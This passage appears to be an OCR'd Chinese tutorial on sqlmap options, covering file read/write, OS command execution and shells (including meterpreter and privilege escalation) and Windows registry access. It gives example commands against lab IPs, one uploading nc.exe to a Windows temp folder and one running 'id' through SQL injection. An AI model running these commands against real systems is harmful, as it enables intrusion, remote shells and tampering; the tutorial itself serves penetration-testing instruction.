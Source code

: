     sqlmap.py -u"http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther"--file-read "C:/example.exe" -v 1
    
       --file-write=WFILE  编辑后端的数据库管理系统文件系统上的本地文件
    
       --file-dest=DFILE   后端的数据库管理系统写入文件的绝对路径
    
    在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下：
    
    python sqlmap.py -u"http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write"/software/nc.exe" --file-dest "C:/WINDOWS/Temp/nc.exe" -v1
    
    ## 1.3.13 操作系统访问
    
    这些选项可以用于访问后端数据库管理系统的底层操作系统
    
       --os-cmd=OSCMD   执行操作系统命令（OSCMD）
    
       --os-shell          交互式的操作系统的shell
    
       --os-pwn          获取一个OOB shell，meterpreter或VNC
    
       --os-smbrelay       一键获取一个OOBshell，meterpreter或VNC
    
       --os-bof           存储过程缓冲区溢出利用
    
       --priv-esc          数据库进程用户权限提升
    
       --msf-path=MSFPATH  MetasploitFramework本地的安装路径
    
       --tmp-path=TMPPATH  远程临时文件目录的绝对路径
    
    linux查看当前用户命令：
    
    sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --os-cmd id -v1
    
        

## 1.3.14 Windows注册表访问

    这些选项可以被用来访问后端数据库管理系统Windows注册表
    
       --reg-read          读一个Windows注册表项值
    
       --reg-add           写一个Windows注册表项值数据
    
       --reg-del           删除Windows注册表键值
    
       --reg-key=REGKEY    Windows注册表键
    
       --reg-value=REGVAL  Windows注册表项值
    
       --reg-data=REGDATA  Windows注册表键值数据
    
       --reg-type=REGTYPE  Windows注册表项值类型
    
        

## 1.3.15 一般选项

    这些选项可以用来设置一些一般的工作参数
    